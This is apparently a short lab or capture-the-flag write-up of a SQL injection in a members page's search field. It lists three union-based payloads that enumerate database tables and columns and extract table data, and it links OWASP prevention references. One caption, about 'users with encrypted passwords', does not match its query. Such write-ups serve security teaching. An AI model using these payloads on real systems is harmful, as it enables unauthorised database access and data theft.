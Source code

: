 # SQL injection (members page)

To exploit, go to the `http://addr/index.php?page=member` and write the following commands at the search field:

List all the tables and related databases:
```
1 union select table_name, table_schema from information_schema.tables
```

List all table columns and related table names:
```
1 union select column_name, table_name from information_schema.columns
```

List all users with encrypted passwords:
```
1 union select id, comment from Member_images.list_images
```

## References
- [Information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html) structure
- [SQL Injection Attack — OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLi Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLi payload examples — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)